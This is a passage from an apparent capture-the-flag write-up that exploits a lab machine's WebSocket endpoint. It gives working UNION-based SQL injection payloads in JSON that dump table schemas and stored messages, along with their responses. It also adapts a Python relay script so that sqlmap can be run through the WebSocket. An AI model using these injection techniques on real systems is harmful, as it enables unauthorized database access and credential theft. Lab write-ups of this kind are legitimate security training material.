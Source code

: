 After dumping credentials for `admin`, there are no other entries in the table.
Before leaving the sql database, we should explore some of the other tables. This turned out to be a good idea, because more useful information is found in the `answers` table:

```JSON
{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 1-- -"}

{"message": {"id": "CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT answered_by,answer,status,NULL FROM answers where id = 1-- -"}

{"message": {"id": "admin", "version": "Hello Json,\n\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\n\nThomas Keller", "released_date": "PENDING", "downloads": null}}

{"version":"0.0.3\"UNION SELECT answered_by,answer,status,NULL FROM answers where id = 2-- -"}

{"message": {"id": "admin", "version": "Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller", "released_date": "PENDING", "downloads": null}}

{"version":"0.0.3\"UNION SELECT answered_by,answer,status,NULL FROM answers where id = 3-- -"}

{"message": "Invalid version!"}
```

We see messages from an id of `admin`, where he signs off as Thomas Keller. This can give us potential ideas as to what username(s) might be on the machine.

#### Bonus: using SQLMap to dump the database

Because the SQL injection is done through a WebSocket interaction, utilizing SQLMap is a little more complex than usual. Although SQLMap has WebSocket compatibility, it has been difficult to properly launch in my experience. However, there is a [nice blog article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that highlights a clever approach to using sqlmap over a WebSocket. In this approach, the author sets up a python server script that will receive SQLMap's queries, transform the payload to a relevant JSON query, then redirect it to the WebSocket of interest.

First, the python redirection script needs to be updated to our situation. The ws_server value must be changed, and also the payload replace line must be altered.
Line 6:
```
ws_server = "ws://10.10.11.206:5789/version"
```
Line 14:
```python
message = unquote(payload).replace("'",'\\\"') # replacing " with ' to avoid breaking JSON structure
data = '{"version":"%s"}' % message
```

Now we can run the python script, and in a new tab initiate sqlmap.
